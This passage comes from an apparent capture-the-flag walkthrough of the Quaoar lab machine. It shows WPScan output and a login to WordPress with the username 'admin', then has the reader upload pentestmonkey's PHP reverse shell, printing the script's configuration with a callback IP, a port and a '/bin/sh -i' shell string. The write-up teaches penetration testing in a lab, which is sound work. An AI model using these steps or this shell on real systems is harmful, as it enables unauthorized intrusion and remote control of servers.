 |  Author: the WordPress team
 |  Author URI: http://wordpress.org/

[+] Enumerating plugins from passive detection ...
[+] No plugins found

[+] Finished: Sat Aug 19 08:30:05 2017
[+] Requests Done: 41
[+] Memory used: 8.387 MB
[+] Elapsed time: 00:00:03
{% endhighlight %}

<p>But wait, there's an <b>admin</b> account? </p>

![Admin login](/img/quaoar/wp-admin.png){:class="img-responsive center-block"}

<p>And there's even more, username of this account is simply <b>admin</b>! Now we're in the administrator panel of Wordpress, from where we can deploy a <a href="http://pentestmonkey.net/tools/web-shells/php-reverse-shell">PHP Reverse Shell</a>. </p>

<p>Reemeber to change the IP address. </p>

{% highlight php %}
$VERSION = "1.0";
$ip = '192.168.56.103';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
{% endhighlight %}
